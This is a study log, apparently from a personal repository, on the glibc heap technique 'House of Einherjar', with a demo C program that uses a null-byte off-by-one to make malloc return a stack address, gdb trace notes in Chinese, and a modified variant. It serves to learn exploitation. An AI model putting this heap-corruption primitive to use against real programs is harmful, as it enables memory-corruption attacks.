









# house_of_einherjar.log
## source code
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

/*
   Credit to st4g3r for publishing this technique
   The House of Enherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
	printf("Welcome to House of Einherjar!\n");
	printf("Tested in Ubuntu 16.04 64bit.\n");
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	printf("\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	printf("a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    printf("(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    printf("Our fake chunk at %p looks like:\n", fake_chunk);
    printf("prev_size (not used): %#lx\n", fake_chunk[0]);
    printf("size: %#lx\n", fake_chunk[1]);
    printf("fwd: %#lx\n", fake_chunk[2]);
    printf("bck: %#lx\n", fake_chunk[3]);
    printf("fwd_nextsize: %#lx\n", fake_chunk[4]);
    printf("bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	printf("\nWe allocate 0xf8 bytes for 'b'.\n");
	printf("b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x100) | prev_inuse = 0x101\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	printf("b.size: %#lx\n", *b_size_ptr);
    printf("This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    printf("If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    printf("\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;

    // free b and it will consolidate with our fake chunk
    printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    printf("Next malloc(0x200) is at %p\n", d);
}

```
## environment
Ubuntu x64 libc.so.23
gdb-peda

## trace
malloc a: 0x603410


fake chunk: 0x7fffffffde20


malloc b: 0x603450


offby one后，chunk b的curSize的最低位被清0（这里是0x100的倍数，所以不会改变大小，只会清掉preInUse位）。


此外，chunk a的大小一定要精心构造，我们知道chunk b的pre chunk如果不是free态，则b的preSize可以补给a的alloc大小，这里a的大小为(0x38+16-8)align(16)=0x40，刚好利用上了这一补足。

再继续伪造preSize，它是chunk a的最后8字节，值应该设为“chunk b地址 - fake chunk地址”，通过布置chunk a的数据：


fake chunk的curSize也需要修正到和chunk b的preSize一致：


free b之后，b和fake chunk，top chunk合并：


此时的0xffff8000006261e0为新top chunk的大小，刚好为此前chunk b的0x100 + top chunk的0x20ab0 + fake chunk的0xffff800000605630。

看看当前的main_arena，完全符合预期:


此后当我们再次malloc时，由于fastbins和bins都为空，所以从top chunk分割，而此时，top chunk已经指向了栈空间的0x7fffffffde20,分配到的d也就应该指向0x7fffffffde30：


## notes
1. 实际上fake chunk的preSize可以不设置，作者的fake_chunk[0]设置成100的意图原本是想通过fake_chunk的bk指针指向本体，而绕过P->bk->size == P->preSize，但我没找到。此外，就算在free时有判断，这个fake_chunk的curSize已经被动态修改了，那么preSize也应该动态修改才对吧。即补充`fake_chunk[0] = fake_size;`。
2. 因为fake_chunk在free合并时，本身是个large chunk，此后malloc时large chunk会检查fd，bk以及fd_nextsize和bk_nextsize。这里通过全部预设置成本体绕过。
3. 如果不想和top chunk进行合并，那么在free b之前再加一次malloc即可。但我在加malloc后发现，如果chunk b不和top chunk合并，free之后挂到unsorted bin。而再malloc时会直接检测到corruption。根据自己的理解，我们此时应该将fake chunk的preSize和curSize再次改动到一致，这也就呼应了note 1的说法。如果改动的大小是small bin，则不需要照顾fd_nextsize和bk_nextsize，即note 2。
```cpp
int main()
{
	printf("Welcome to House of Einherjar!\n");
	printf("Tested in Ubuntu 16.04 64bit.\n");
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	printf("\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	printf("a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    printf("(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    printf("Our fake chunk at %p looks like:\n", fake_chunk);
    printf("prev_size (not used): %#lx\n", fake_chunk[0]);
    printf("size: %#lx\n", fake_chunk[1]);
    printf("fwd: %#lx\n", fake_chunk[2]);
    printf("bck: %#lx\n", fake_chunk[3]);
    printf("fwd_nextsize: %#lx\n", fake_chunk[4]);
    printf("bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	printf("\nWe allocate 0xf8 bytes for 'b'.\n");
	printf("b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x100) | prev_inuse = 0x101\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	printf("b.size: %#lx\n", *b_size_ptr);
    printf("This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    printf("If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    printf("\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;
	//fake_chunk[0] = fake_size;

	malloc(0xf8);
    // free b and it will consolidate with our fake chunk
    printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness
	fake_chunk[1] = 0x101;
    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0xf8);
    printf("Next malloc(0xf8) is at %p\n", d);
}
```
此后又发现问题，分配d时必须要大小和fake_chunk一致才行，否则依然会因为presize的检查而corrupted掉。猜测是当前的libc已有了einherjar的防护，具体还有日后看代码。